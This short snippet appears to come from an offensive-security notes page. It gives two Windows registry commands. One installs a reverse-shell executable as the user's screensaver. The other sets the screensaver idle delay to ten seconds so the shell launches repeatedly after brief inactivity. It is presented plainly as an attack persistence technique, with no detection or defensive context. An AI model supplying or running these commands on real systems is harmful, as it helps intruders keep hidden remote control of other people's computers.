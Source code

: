 ### add rev shell as screensaver
```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "c:\<exeFile>" /f
```

### set idle delay to 10 seconds
```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "10" /f
```

